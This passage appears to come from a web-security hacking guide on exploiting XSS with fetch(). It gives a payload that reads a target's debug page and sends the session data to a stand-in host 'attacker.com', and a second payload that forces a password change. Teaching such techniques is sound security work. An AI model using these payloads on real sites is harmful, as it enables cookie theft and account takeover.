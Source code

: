 {% hint style="warning" %}
In very restricted scenarios you might not be able to make an outbound connection due to the `connect-src` [#content-security-policy-csp](cross-site-scripting-xss.md#content-security-policy-csp "mention") directive. See that chapter for ideas on how to still exfiltrate data
{% endhint %}

### Forcing requests - `fetch()`

When making a `fetch()` request to the same domain you are on, cookies are _included_, even if `httpOnly` is set. This opens up many possibilities by requesting data and performing actions on the application. When making a request, the response is also readable because of the [Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy), as we are on the same site as the request is going to.

One idea to still steal cookies would be to request a page that responds with the cookie information in some way, like a debug or error page. You can then request this via JavaScript `fetch()` and exfiltrate the response:

{% code title="Payload" %}
```javascript
fetch("http://target.com/debug")  // Perform request
    .then(res => res.text())      // Read response as text
    .then(res => fetch("http://attacker.com/leak?" + res));
```
{% endcode %}

{% code title="Logs of attacker.com" %}
```log
"GET /leak?session=... HTTP/1.1" 404 -
```
{% endcode %}

{% hint style="info" %}
**Tip**: For more complex data, you can use `btoa(res)` to Base64 encode the data which makes sure no special characters are included, which you can later decode
{% endhint %}

A more common way of exploitation is by requesting personal data from a settings page or API route, which works in a very similar way as shown above.

#### Performing actions

Performing actions on the victim's behalf can is also common and can result in a high impact, depending on their capabilities. These are often done using POST requests and may contain extra data or special headers. Luckily, [`fetch()`](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch) allows us to do all that and more! Its second argument contains `options` with keys like `method:`, `headers:`, and `body:` just to name a few:

{% code title="Payload" %}
```javascript
fetch("http://target.com/api/change_password", {
    method: "POST",
    headers: {
        "Content-Type": "application/json",
        "X-Custom-Header": "anything"
    },
    body: JSON.stringify({
        "password": "hacked",
        "confirm_password": "hacked"
    })
})
```
{% endcode %}
